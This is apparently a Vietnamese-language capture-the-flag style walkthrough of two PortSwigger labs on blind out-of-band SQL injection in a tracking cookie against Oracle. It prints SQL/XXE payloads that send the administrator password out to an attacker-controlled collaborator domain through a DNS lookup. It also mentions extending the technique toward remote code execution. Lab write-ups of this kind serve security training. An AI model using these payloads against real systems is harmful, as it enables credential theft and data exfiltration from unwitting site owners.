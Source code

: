 # out-of-band SQL injection

## 1. Lab: Blind SQL injection with out-of-band data exfiltration

link: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

### Đề bài

![image](https://hackmd.io/_uploads/SyZahvj3p.png)

### Phân tích

- Trang web chứa lỗ hổng SQL injection dạng Blind khi phân tích và thực hiện truy vấn SQL bằng cookie theo dõi (tracking cookie), trong câu truy vấn có chứa giá trị của cookie đã gửi. Câu truy vấn được thực thi không đồng bộ nên chỉ có thể khai thác bằng kỹ thuật Out-of-band. Để giải quyết bài lab, chúng ta cần khai thác lỗ hổng nhằm tìm kiếm mật khẩu tài khoản administrator, biết rằng trong cơ sở dữ liệu chứa bảng users, gồm cột username và password.
- chúng ta xác định được trang web sử dụng hệ cơ sở dữ liệu Oracle, payload:

```sql!
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![image](https://hackmd.io/_uploads/BJgHydo36.png)

mình dùng burp suit pro scan với lỗ hổng XXE và sql injection

![image](https://hackmd.io/_uploads/H1fSJOoh6.png)

kết quả cho thấy có lỗ hổng sql injection

![image](https://hackmd.io/_uploads/BJx3yujnp.png)

burp suit pro quét được lỗ hổng với payload

```sql!
 '||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % zyfiz SYSTEM "http://p7xlm245cgbjhfif8s93g5f6wx2qqgek2dp3ds.oasti'||'fy.com/">%zyfiz;]>'),'/l') from dual)||
```

![image](https://hackmd.io/_uploads/r1BMmuonT.png)

![image](https://hackmd.io/_uploads/ryl4xdj2p.png)

thông báo từ burp suit cho thấy lab dùng CSDL Oracle và dùng sub-query của hàm xmltype trong Oracle để đánh giá dữ liệu xml

- và chúng ta thấy payload đã tạo 1 ENTITY trong DTD để thực hiện lỗ hổng XXE chèn vào data xml 1 url để hệ thống đọc
- vậy là chúng ta có thể chèn bất cứ url nào vào hệ thống và có thể đó là url đến server chứa mã thực thi của chúng ta để RCE

### Khai thác

gửi payload trên đến url của burp collaborator

![image](https://hackmd.io/_uploads/HJc7N_j36.png)

và mình nhận được gói tin đến

![image](https://hackmd.io/_uploads/S1O-VOi26.png)

- Thực hiện DNS lookup thành công, có thể chắc chắn cookie TrackingId chứa lỗ hổng Blind SQL injection có thể tấn công bằng kỹ thuật Out-of-band.

- Để truy xuất mật khẩu người dùng administrator trong bảng users, chúng ta có câu truy vấn `SELECR password FROM users WHERE username = 'administrator'`, kết hợp với kỹ thuật Out-of-band chúng ta sẽ dùng payload sau để trích xuất được password của admin

```sql!
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![image](https://hackmd.io/_uploads/H1U3Hdj2a.png)

và mình được password của admin là **tzrq2xikakazdmpxbpv0**

đăng nhập tài khoản **administrator:tzrq2xikakazdmpxbpv0** và mình solve được lab này

![image](https://hackmd.io/_uploads/rJPgLuj26.png)

## 2. Lab: Blind SQL injection with out-of-band interaction

link: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band

### Đề bài

![image](https://hackmd.io/_uploads/BJ5yv_s3a.png)

### Phân tích

- Bài lab tiếp tục khai thác lỗ hổng SQLi tại trường TrackingID tại Cookie, ứng dụng web trong bài này sẽ sử dụng dạng Out-of-band SQLi để tương tác với external domain (domain mà ta control).

### Khai thác

- tương tự bài trên mình dùng burp scan và trigger thành công với payload

```sql!
'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % mcckv SYSTEM "http://cs887ppsx3w62232tfuq1s0thkndb4z8n1aryg.oasti'||'fy.com/">%mcckv;]>'),'/l') from dual)||'
```

Trong đó, payload trên tận dụng lỗ hổng XXE để tạo 1 parameter entity `mcckv` chứa giá trị được lấy từ external domain của attacker thông qua keyword SYSTEM.

![image](https://hackmd.io/_uploads/rJGHFuohp.png)

đồng thời bài lab của chúng ta đã được solve

![image](https://hackmd.io/_uploads/r1nJYdjna.png)

<img  src="https://3198551054-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FVvHHLY2mrxd5y4e2vVYL%2Fuploads%2FF8DJirSFlv1Un7WBmtvu%2Fcomplete.gif?alt=media&token=045fd197-4004-49f4-a8ed-ee28e197008f">
